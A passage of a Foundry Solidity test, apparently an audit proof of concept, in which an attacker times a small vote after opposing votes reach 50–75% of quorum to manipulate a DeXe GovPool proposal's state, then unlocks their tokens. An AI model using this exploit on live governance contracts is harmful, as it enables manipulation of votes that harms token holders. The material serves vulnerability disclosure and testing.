 ```solidity
            vm.stopPrank();
        }

        IGovPool.ProposalView[] memory proposals = govPool.getProposals(proposalId - 1, 1);
        IGovPool.Proposal memory proposal = proposals[0].proposal;
        IGovPool.ProposalState proposalState;

        bytes[] memory _data = new bytes[](1);

        console.log("");
        console.log("------------ 3. Users against the proposal -------------------");

        // 3. Users against the proposal
        // The attacker waits until the number of opposing votes is more than half but less than three-quarters of the quorum. (50% ~ 75% of requiredQuorum)
        // Let's say that user A votes against with a voting power of 65% of requiredQuorum.
        {
            vm.startPrank(userA);

            depositAmount = requiredQuorum * 65 / 100;
            dexeToken.approve(address(userKeeper), depositAmount);
            govPool.deposit(depositAmount, nftIds);

            console.log(">>> In this test, UserA votes against with a voting power of 65% of requiredQuorum");
            _data[0] = abi.encodeWithSelector(IGovPool.vote.selector, proposalId, false, depositAmount, nftIds);
            govPool.multicall(_data);

            vm.stopPrank();
        }

        console.log("");
        console.log("------------ 4. The attacker votes for the proposal ----------");
        // 4. The attacker votes with minimal amount to lock the proposal
        {
            vm.startPrank(attacker);

            depositAmount = requiredQuorum - depositAmount;
            // the attacker already deposited minVotesForCreating dexe token.
            dexeToken.approve(address(userKeeper), depositAmount - minVotesForCreating);
            govPool.deposit(depositAmount - minVotesForCreating, nftIds);

            console.log(">>> The attacker votes for the proposal with 35% of requiredQuorum");
            _data[0] = abi.encodeWithSelector(IGovPool.vote.selector, proposalId, true, depositAmount, nftIds);
            govPool.multicall(_data);

            proposalState = govPool.getProposalState(proposalId);
            console.log("- State is Defeated ? ", IGovPool.ProposalState.Defeated == proposalState);

            if (IGovPool.ProposalState.Defeated == proposalState) {
                console.log(">>> The attacker unlocks his tokens");
                console.log("maxLockedAmountBeforeUnlock   : ", userKeeper.maxLockedAmount(attacker));
                govPool.unlock(attacker);
                console.log("maxLockedAmountAfterUnlock    : ", userKeeper.maxLockedAmount(attacker));
            }

            vm.stopPrank();
        }
```